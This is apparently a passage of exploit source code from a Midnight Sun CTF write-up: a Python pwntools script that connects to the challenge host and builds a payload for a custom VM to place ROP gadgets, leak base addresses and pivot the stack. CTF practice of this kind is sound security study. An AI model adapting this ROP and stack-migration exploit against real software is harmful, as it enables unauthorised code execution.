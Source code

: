 ```python=

  return sub+add
def subbb(vv):
  sub="\xa2\x20"+p32(vv)[:2]

  return sub
def writehere(base):
  base="\x80\x20"+p32(base)[:2]
  overwrite="\x87\x0a\x00\x00"
  return base+overwrite
r=remote("hfs-vm-01.play.midnightsunctf.se", 4096)



payload=("\x00\x20\x00\x04\x20\x20\x04\x00\x40\x20\x00\x01"
+loadss(0x34)+change(poprsi,0xe6e)+writehere(0x34)
+loadss(0x48)+subbb(0x1000)+writehere(counttt())
+"\x0a\x00\x00\x00"
+loadss(0x49)+writehere(counttt())
+"\x0a\x00\x00\x00"
+loadss(0x4a)+writehere(counttt())
+"\x0a\x00\x00\x00"
+loadss(0x4b)+writehere(counttt())
+"\x0a\x00\x00\x00"
+loadss(0x34)+change(poprdx,poprsi)+writehere(counttt())
+"\x0a\x00\x00\x00"
+loadss(0x35)+writehere(counttt())
+"\x0a\x00\x00\x00"
+loadss(0x36)+writehere(counttt())
+"\x0a\x00\x00\x00"
+loadss(0x37)+writehere(counttt())
+"\x0a\x00\x00\x00"
+movv(128)+writehere(counttt())
+movv(0x0)+writehere(counttt())
+writehere(counttt())
+writehere(counttt())
+loadss(0x34)+change(poprdi,poprsi)+writehere(counttt())
+loadss(0x35)+writehere(counttt())
+loadss(0x36)+writehere(counttt())
+loadss(0x37)+writehere(counttt())
+movv(0x1)+writehere(counttt())
+movv(0x0)+writehere(counttt())
+writehere(counttt())
+writehere(counttt())
+loadss(0x34)+change(readd,poprsi)+writehere(counttt())
+loadss(0x35)+writehere(counttt())
+loadss(0x36)+writehere(counttt())
+loadss(0x37)+writehere(counttt())
+loadss(0x34)+change(poprsp,poprsi)+writehere(counttt())
+loadss(0x35)+writehere(counttt())
+loadss(0x36)+writehere(counttt())
+loadss(0x37)+writehere(counttt())



+loadss(0x38)+writehere(counttt())
+loadss(0x39)+writehere(counttt())
+loadss(0x3a)+writehere(counttt())
+loadss(0x3b)+writehere(counttt())

) # leak all the base address we need and do stack migration

r.sendline(str(len(payload)))
```